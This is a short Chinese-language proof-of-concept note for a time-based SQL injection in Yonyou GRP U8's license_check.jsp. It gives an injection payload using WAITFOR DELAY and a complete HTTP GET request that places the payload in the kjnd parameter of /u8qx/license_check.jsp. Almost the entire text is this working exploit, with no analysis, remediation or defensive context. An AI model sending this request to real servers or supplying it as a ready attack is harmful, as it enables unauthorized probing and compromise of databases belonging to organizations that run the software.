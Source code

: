 
## 用友 GRP U8 license_check.jsp 存在SQL注入

## sql注入payload
```
';WAITFOR DELAY '0:0:5'-- q
```

## poc
```

GET /u8qx/license_check.jsp?kjnd=1%27;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Connection: close
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Lc4ILVKo1g8Fcvju7pia1Lgsn9t5LBBrZibkYPnsDqIIA3LNhWdFso2I2DMibJJ4DQZbvCibWlRJJqfeib7ZiafvQiceA/640?wx_fmt=png&wxfrom=13)
